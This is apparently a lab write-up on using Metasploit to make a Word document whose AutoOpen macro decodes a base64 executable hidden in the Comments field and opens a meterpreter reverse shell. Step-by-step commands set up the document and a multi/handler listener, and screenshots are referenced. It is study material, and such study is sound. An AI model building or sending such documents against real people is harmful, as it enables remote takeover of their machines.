 **Creating a new document**

- Open a new terminal window and run **`msfconsole`** to start the Metasploit Framework
- **`set payload windows/meterpreter/reverse_tcp`** specifies the payload to use; in this case, it connects to the specified host and creates a reverse shell
- **`use exploit/multi/fileformat/office_word_macro`** specifies the exploit you want to use. It is a module to create a document with a macro
- **`set LHOST CONNECTION_IP`** specifies the IP address of the attacker’s system, **`CONNECTION_IP`** in this case is the IP of the target
- **`set LPORT 8888`** specifies the port number you are going to listen on for incoming connections on the target
- **`show options`** shows the configuration options to ensure that everything has been set properly, i.e., the IP address and port number in this example
- **`exploit`** generates a macro and embeds it in a document
- **`exit`** to quit and return to the terminal

![10SS01](https://github.com/user-attachments/assets/c5da065f-c937-4b5e-a2cc-3463b92cdca5)
![10SS02](https://github.com/user-attachments/assets/9441fb59-96f3-404d-9593-bc1627ad7410)
![10SS03](https://github.com/user-attachments/assets/4a733834-d044-4355-aa88-c3ae69f8d766)


Word document with the embedded macro was created and stored in `~/user/.msf/local/msf.docm`

![10image01](https://github.com/user-attachments/assets/958268ad-eadd-4c42-9cca-206383fd6838)

1. **`AutoOpen()`** triggers the macro automatically when a Word document is opened. It searches through the document’s properties, looking for content in the “Comments” field. The data saved using **`base64`** encoding in the Comments field is actually the payload.
2. **`Base64Decode()`** converts the payload to its original form. In this case, it is an executable MS Windows file.
3. **`ExecuteForWindows()`** executes the payload in a temporary directory. It connects to the specified attacker’s system IP address and port.

The **Comments** field is shown in the screenshot below. It is close to 100,000 characters in our case.

![10image02](https://github.com/user-attachments/assets/1c35f557-36a6-45da-8f2f-8de6adac174c)

If you copy it and save it to a text file, you can convert it to its original executable format using **`base64`** as shown below. You can notice the size of the files.

![10image03](https://github.com/user-attachments/assets/877cf6e0-d221-4f81-8971-9db105c179bf)

Running a check on VirusTotal report

![10image04](https://github.com/user-attachments/assets/0ca5a053-423a-417f-a70d-47209edfa28f)

**Listening for connection**

- Open a new terminal window and run **`msfconsole`** to start the Metasploit Framework
- **`use multi/handler`** to handle incoming connections
- **`set payload windows/meterpreter/reverse_tcp`** to ensure that our payload works with the payload used when creating the malicious macro
- **`set LHOST CONNECTION_IP`** specifies the IP address of the attacker’s system and should be the same as the one used when creating the document
- **`set LPORT 8888`** specifies the port number you are going to listen on and should be the same as the one used when creating the document
- **`show options`** to confirm the values of your options
- **`exploit`** starts listening for incoming connections to establish a reverse shell
  
![10SS04](https://github.com/user-attachments/assets/cd0449e8-e669-4926-a285-b1d13233ae8c)
![10SS05](https://github.com/user-attachments/assets/ca665db3-a548-45a1-893c-86afaabd0e24)
![10SS08](https://github.com/user-attachments/assets/640b7623-d446-4aec-b8da-c5e77a27e93d)

(Forgot to take a screenshot, hence saved one from the page)
